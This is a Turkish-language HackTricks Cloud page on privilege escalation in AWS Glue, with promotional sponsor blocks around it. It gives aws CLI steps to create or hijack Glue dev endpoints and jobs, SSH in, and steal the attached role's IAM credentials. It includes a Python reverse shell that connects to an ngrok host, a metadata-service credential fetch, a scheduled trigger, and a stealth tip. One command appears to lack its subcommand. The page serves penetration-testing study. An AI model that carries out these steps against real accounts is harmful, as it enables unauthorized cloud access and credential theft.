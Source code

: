 # AWS - Glue Yetki Yükseltme

<details>

<summary><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI'na**](https://github.com/sponsors/carlospolop) göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'ı takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek paylaşın**.

</details>

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Bu izinlere sahip kullanıcılar, **yeni bir AWS Glue geliştirme ucu** oluşturabilir ve bu uca belirli izinlere sahip olan **mevcut bir hizmet rolü atayabilir**.

Kurulumdan sonra, **saldırgan uç noktanın örneğine SSH ile bağlanabilir** ve atanan rolün IAM kimlik bilgilerini çalabilir:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Gizlilik amacıyla, Glue sanal makinesi içinden IAM kimlik bilgilerinin kullanılması önerilir.

**Potansiyel Etki:** Belirtilen Glue hizmet rolüne ayrıcalık yükseltme.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Bu izne sahip kullanıcılar, **mevcut bir Glue geliştirme** uç noktasının SSH anahtarını **değiştirebilir ve buna SSH erişimi sağlayabilir**. Bu, saldırganın uç noktanın bağlı olduğu rolün ayrıcalıklarıyla komutları yürütmesine olanak tanır:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Potansiyel Etki:** Kullanılan yapıştırma hizmeti rolüne ayrıcalık yükseltme.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

**`iam:PassRole`** yetkisine sahip kullanıcılar, **`glue:CreateJob` veya `glue:UpdateJob`** ile birleştirildiğinde ve **`glue:StartJobRun` veya `glue:CreateTrigger`** ile birleştirildiğinde, bir AWS Glue işi oluşturabilir veya güncelleyebilir ve herhangi bir Glue hizmet hesabını ekleyebilir ve işin yürütülmesini başlatabilir. İşin yetenekleri, keyfi Python kodunu çalıştırmayı içerir, bu da ters kabuk oluşturmak için istismar edilebilir. Bu ters kabuk daha sonra Glue işine bağlı olan rolün IAM kimlik bilgilerini dışa aktarmak için kullanılabilir, bu da o rolün izinlerine dayalı potansiyel yetkisiz erişim veya eylemlere yol açabilir:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Potansiyel Etki:** Belirtilen yapıştırma hizmeti rolüne ayrıcalık yükseltme.

### `glue:UpdateJob`

Sadece güncelleme izniyle bir saldırgan, zaten eklenmiş olan rolün IAM Kimlik bilgilerini çalabilir.

**Potansiyel Etki:** Eklenmiş olan yapıştırma hizmeti rolüne ayrıcalık yükseltme.

## Referanslar

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahramana kadar AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya HackTricks'i **PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'da takip edin.**
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>
